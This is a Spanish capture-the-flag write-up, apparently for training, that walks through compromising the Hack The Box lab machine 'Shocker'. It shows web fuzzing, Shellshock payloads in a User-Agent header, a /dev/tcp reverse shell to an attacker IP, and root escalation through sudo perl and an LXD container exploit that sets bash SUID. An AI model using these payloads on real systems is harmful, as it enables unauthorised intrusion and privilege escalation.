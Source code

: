 # Shocker {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se shocker.

El replay del live se puede ver aqui

[![S4vitaar Shocker maquina](https://img.youtube.com/vi/7BGLph5TWMY/0.jpg)](hhttps://www.youtube.com/watch?v=7BGLph5TWMY)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.56
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.56
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta?           |
| ------ | -------- | ------------------ | -------------------- |
| 80     | http     | Web, Fuzzing       |                      |
| 2222   | ssh      | Conneccion directa | usuario y contraseña |




### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.56
```

Nada interesante aqui

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.56 -oN webScan
```

Nada interesante.

#### Analyzando la web con Firefox {-}

Hay una pagina que nos dice *Don't Bug Me!* y nada mas. Como la maquina se llama Shocker, pensamos directamente al ataque ShellShock

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
```

Encontramos una routa muy interesante que es el `cgi-bin` que es la routa donde si la bash es vulnerable podemos hacer un ataque shellshock.

## Vulnerability Assessment {-}

### ShellShock attack {-}

1. creamos un diccionario de extensiones

    ```bash
    nano extension.txt

    sh
    pl
    py
    cgi
    ```

1. lanzamos nuevamente wfuzz con la extension

    ```bash
    wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extension.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
    ```

Como aqui hemos encontrado un fichero `user.sh` lanzamos un curl para ver lo que es.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
```

Ya podemos lanzar el ataque shellshock cambiando la cabezera User-Agent.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
```

Vemos la respuesta shelly quiere decir que estamos en capacidad de ejecutar commandos a nivel de systema, gracias a esta vulnerabilidad.## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad ShellShock {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Entablamos una reverse shell

    ```bash
    curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos shelly y que podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Vemos que estamos en el grupo lxd ;) y ademas podemos ejecutar /usr/bin/perl como root si proporcionar contraseña.

### Escalar privilegios con /usr/bin/perl {-}

```bash
sudo -u root perl -e 'exec "/bin/sh"'
whoami 
#Output
root
```

### Escalar privilegios con LXD {-}

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los passos del exploit

1. En la maquina de attaquante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```

